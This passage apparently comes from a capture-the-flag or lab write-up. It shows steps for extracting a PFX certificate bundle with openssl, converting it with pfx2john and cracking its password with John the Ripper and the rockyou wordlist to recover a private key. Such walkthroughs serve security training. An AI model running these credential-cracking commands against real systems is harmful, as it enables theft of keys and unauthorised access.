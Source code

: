 ### 3.3 Attempting PFX Extraction

``` bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
```

![OpenSSL PFX Extraction Attempt](screenshots/openssl_pfx_file.png)

Requires another password.

---

### 3.4 Cracking the PFX Password

Convert `.pfx` to hash format:

``` bash
pfx2john legacyy_dev_auth.pfx > pfx.hash 
john pfx.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![pfx2john Output](screenshots/pfx2john.png)


Password recovered.

---

### 3.5 Extracting Certificate and Key

``` bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes 
```

